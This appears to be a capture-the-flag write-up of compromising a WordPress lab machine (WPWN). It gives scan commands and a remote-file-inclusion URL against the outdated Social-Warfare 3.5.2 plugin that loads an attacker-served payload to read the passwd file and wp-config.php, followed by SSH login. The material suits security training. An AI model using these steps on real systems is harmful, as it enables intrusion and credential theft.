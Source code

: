 *WPWN*  

**RECON**
---
**Ip Search**  
Our IP leads us to this blank page lets move to scanning  
![image6](https://user-images.githubusercontent.com/66635295/158526173-aa39b52e-d9c3-4ac0-8865-9792b5497a4f.png)
**Nmap Scan**  
[nmap -sV -sC 192.168.55.123]  
-version -safescan
Port 22, and 80 are open  
![image3](https://user-images.githubusercontent.com/66635295/158744691-d688bd5d-81d7-4af4-b510-a2e1b527177f.png)  
**Scan for hidden directories (dirbuster)**   
[dirb http:// 192.168.55.123]  
![image8](https://user-images.githubusercontent.com/66635295/158747642-86dbd602-e37e-499f-b37f-430b1b4870e5.png)  
**WordPress Page**  
![image7](https://user-images.githubusercontent.com/66635295/158747979-04e74459-23fc-4d85-add5-2ddb83e22836.png)  
**Scan for wordpress vulnerabilities**   
[wpscan --url http:// 192.168.55.123/wordpress/]
![image1](https://user-images.githubusercontent.com/66635295/158748297-d989c1f4-acdc-4e01-bef1-9e606e4ed10c.png)  
**Scan reveals outdated plugin named Social-Warfare 3.5.2**  
This Vulnerability allows commands to run for obtaining user Credentials  
![image15](https://user-images.githubusercontent.com/66635295/158748468-74c92d41-881e-4414-9070-43a2bb30d4f1.png)  
**Payload File**    
Shows passwd file contents  
![image5](https://user-images.githubusercontent.com/66635295/158751852-ada62fb4-56f6-4e2f-ae20-68cd67dd5b81.png)

**Python Simple server**  
[python3 -m http.server 80]  
![image14](https://user-images.githubusercontent.com/66635295/158752244-0f7a0d8f-8f83-41cd-b61b-d747a62290ce.png)




**ENUMURATION**
---
**Visit Website**  
[http:// 192.168.55.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://localhost/payload.txt]    
User Takis is revealed 
![image10](https://user-images.githubusercontent.com/66635295/158752455-4b285dee-5cd6-4449-a4f3-9d179e54d6a2.png)  
**Config.php**
Word press config.php holds important info. The payload can be used to check for it  
![image9](https://user-images.githubusercontent.com/66635295/158752587-5af73a09-806d-4ada-bb96-16bcc3e5bd9e.png)
**Visit Website**
Viewing the source reveals a password for a SQL database  
![image11](https://user-images.githubusercontent.com/66635295/158753420-c9d6f360-973a-4eb9-b88d-afbf3f213196.png)

**Privilege Escalation**
---
**Server SSH**
[sudo ssh takis@192.168.55.123]  
![image4](https://user-images.githubusercontent.com/66635295/158753672-415311f6-028b-4345-8a98-cfcf7a3a7ed9.png)
**User Flag**    
local.txt  
![image13](https://user-images.githubusercontent.com/66635295/158753764-e78a55f8-f9fa-4179-8dc4-fe9691bcf19c.png)   
**Check User Privileges**  
![image12](https://user-images.githubusercontent.com/66635295/158753967-f2d267fc-93d9-442f-94c4-b7463bf2db7c.png)  
**Root Flag**  
![image10](https://user-images.githubusercontent.com/66635295/158754242-21d85cde-d062-443b-907e-0898f5b8d45d.png)

